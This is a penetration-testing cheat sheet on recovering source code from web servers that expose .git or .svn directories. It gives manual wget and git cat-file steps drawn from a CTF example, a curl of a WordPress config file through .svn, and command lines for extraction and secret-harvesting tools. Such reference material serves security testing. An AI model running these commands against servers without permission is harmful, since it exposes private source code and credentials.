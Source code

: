 # Insecure source code management

- [GIT - Source code management](#git---source-code-management)
  - [Github example with a .git](#github-example-with-a-git)
  - [Automatic way : diggit.py](#automatic-way--diggitpy)
  - [Automatic way : rip-git](#automatic-way--rip-git)
  - [Automatic way : GitHack](#automatic-way--githack)
  - [Harvesting secrets : trufflehog](#harvesting-secrets--trufflehog)
  - [Harvesting secrets : Gitrob](#harvesting-secrets--gitrob)
  - [Harvesting secrets : Gitleaks](#harvesting-secrets--gitleaks)
- [SVN - Source code management](#svn---source-code-management)
  - [SVN example (Wordpress)](#svn-example-wordpress)
  - [Automatic way : svn-extractor](#automatic-way--svn-extractor)

## GIT - Source code management

The following examples will create either a copy of the .git or a copy of the current commit.

Check for the following files, if they exist you can extract the .git folder.

- .git/config
- .git/HEAD
- .git/logs/HEAD

### Github example with a .git

1. Check 403 error (Forbidden) for .git or even better : a directory listing
2. Git saves all informations in log file .git/logs/HEAD (try 'head' in lowercase too)
    ```powershell
    0000000000000000000000000000000000000000 15ca375e54f056a576905b41a417b413c57df6eb root <root@dfc2eabdf236.(none)> 1455532500 +0000        clone: from https://github.com/fermayo/hello-world-lamp.git
    15ca375e54f056a576905b41a417b413c57df6eb 26e35470d38c4d6815bc4426a862d5399f04865c Michael <michael@easyctf.com> 1489390329 +0000        commit: Initial.
    26e35470d38c4d6815bc4426a862d5399f04865c 6b4131bb3b84e9446218359414d636bda782d097 Michael <michael@easyctf.com> 1489390330 +0000        commit: Whoops! Remove flag.
    6b4131bb3b84e9446218359414d636bda782d097 a48ee6d6ca840b9130fbaa73bbf55e9e730e4cfd Michael <michael@easyctf.com> 1489390332 +0000        commit: Prevent directory listing.
    ```
3. Access to the commit based on the hash -> a directory name (first two signs from hash) and filename (rest of it).git/objects/26/e35470d38c4d6815bc4426a862d5399f04865c,
    ```powershell
    # create a .git directory
    git init test
    cd test/.git

    # download the file
    wget http://xxx.web.xxx.com/.git/objects/26/e35470d38c4d6815bc4426a862d5399f04865c
    mkdir .git/object/26
    mv e35470d38c4d6815bc4426a862d5399f04865c .git/objects/26/

    # display the content of the file
    git cat-file -p 26e35470d38c4d6815bc4426a862d5399f04865c
        tree 323240a3983045cdc0dec2e88c1358e7998f2e39
        parent 15ca375e54f056a576905b41a417b413c57df6eb
        author Michael <michael@easyctf.com> 1489390329 +0000
        committer Michael <michael@easyctf.com> 1489390329 +0000
        Initial.
    ```
4. Access the tree 323240a3983045cdc0dec2e88c1358e7998f2e39
    ```powershell
    wget http://xxx.web.xxx.com/.git/objects/32/3240a3983045cdc0dec2e88c1358e7998f2e39
    mkdir .git/object/32
    mv 3240a3983045cdc0dec2e88c1358e7998f2e39 .git/objects/32/

    git cat-file -p 323240a3983045cdc0dec2e88c1358e7998f2e39
        040000 tree bd083286051cd869ee6485a3046b9935fbd127c0        css
        100644 blob cb6139863967a752f3402b3975e97a84d152fd8f        flag.txt
        040000 tree 14032aabd85b43a058cfc7025dd4fa9dd325ea97        fonts
        100644 blob a7f8a24096d81887483b5f0fa21251a7eefd0db1        index.html
        040000 tree 5df8b56e2ffd07b050d6b6913c72aec44c8f39d8        js
    ```
5. Read the data (flag.txt)
    ```powershell
    wget http://xxx.web.xxx.com/.git/objects/cb/6139863967a752f3402b3975e97a84d152fd8f
    mkdir .git/object/cb
    mv 6139863967a752f3402b3975e97a84d152fd8f .git/objects/32/
    git cat-file -p cb6139863967a752f3402b3975e97a84d152fd8f
    ```

### Automatic way : diggit.py

```powershell
./diggit.py -u remote_git_repo -t temp_folder -o object_hash [-r=True]
./diggit.py -u http://webpage.com -t /path/to/temp/folder/ -o d60fbeed6db32865a1f01bb9e485755f085f51c1

-u is remote path, where .git folder exists
-t is path to local folder with dummy Git repository and where blob content (files) are saved with their real names (cd /path/to/temp/folder && git init)
-o is a hash of particular Git object to download
```

### Automatic way : rip-git

```powershell
perl rip-git.pl -v -u "http://edge1.web.*****.com/.git/"

git cat-file -p 07603070376d63d911f608120eb4b5489b507692  
tree 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
parent 15ca375e54f056a576905b41a417b413c57df6eb
author Michael <michael@easyctf.com> 1489389105 +0000
committer Michael <michael@easyctf.com> 1489389105 +0000

git cat-file -p 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
```

### Automatic way : GitHack

```powershell
git clone https://github.com/lijiejie/GitHack
GitHack.py http://www.openssl.org/.git/
```

### Harvesting secrets : trufflehog

> Searches through git repositories for high entropy strings and secrets, digging deep into commit history

```powershell
pip install truffleHog # https://github.com/dxa4481/truffleHog
truffleHog --regex --entropy=False https://github.com/dxa4481/truffleHog.git
```

### Harvesting secrets : Gitrob

> Gitrob is a tool to help find potentially sensitive files pushed to public repositories on Github. Gitrob will clone repositories belonging to a user or organization down to a configurable depth and iterate through the commit history and flag files that match signatures for potentially sensitive files.

```powershell
go get github.com/michenriksen/gitrob # https://github.com/michenriksen/gitrob
export GITROB_ACCESS_TOKEN=deadbeefdeadbeefdeadbeefdeadbeefdeadbeef
gitrob [options] target [target2] ... [targetN]
```

### Harvesting secrets - Gitleaks

> Gitleaks provides a way for you to find unencrypted secrets and other unwanted data types in git source code repositories.

```powershell
# Run gitleaks against a public repository
docker run --rm --name=gitleaks zricethezav/gitleaks -v -r  https://github.com/zricethezav/gitleaks.git

# Run gitleaks against a local repository already cloned into /tmp/
docker run --rm --name=gitleaks -v /tmp/:/code/  zricethezav/gitleaks -v --repo-path=/code/gitleaks

# Run gitleaks against a specific Github Pull request
docker run --rm --name=gitleaks -e GITHUB_TOKEN={your token} zricethezav/gitleaks --github-pr=https://github.com/owner/repo/pull/9000

or

go get -u github.com/zricethezav/gitleaks
```

## SVN - Source code management

### SVN example (Wordpress)

```powershell
curl http://blog.domain.com/.svn/text-base/wp-config.php.svn-base
```

1. Download the svn database from http://server/path_to_vulnerable_site/.svn/wc.db
    ```powershell
    INSERT INTO "NODES" VALUES(1,'trunk/test.txt',0,'trunk',1,'trunk/test.txt',2,'normal',NULL,NULL,'file',X'2829',NULL,'$sha1$945a60e68acc693fcb74abadb588aac1a9135f62',NULL,2,1456056344886288,'bl4de',38,1456056261000000,NULL,NULL);
    ```
2. Download interesting files
    * remove \$sha1\$ prefix
    * add .svn-base postfix
    * use first two signs from hash as folder name inside pristine/ directory (94 in this case)
    * create complete path, which will be: `http://server/path_to_vulnerable_site/.svn/pristine/94/945a60e68acc693fcb74abadb588aac1a9135f62.svn-base`

### Automatic way : svn-extractor

```powershell
git clone https://github.com/anantshri/svn-extractor.git
python svn-extractor.py –url "url with .svn available"
```

## References

- [bl4de, hidden_directories_leaks](https://github.com/bl4de/research/tree/master/hidden_directories_leaks)
- [bl4de, diggit](https://github.com/bl4de/security-tools/tree/master/diggit)
- [Gitrob: Now in Go - Michael Henriksen](https://michenriksen.com/blog/gitrob-now-in-go/)
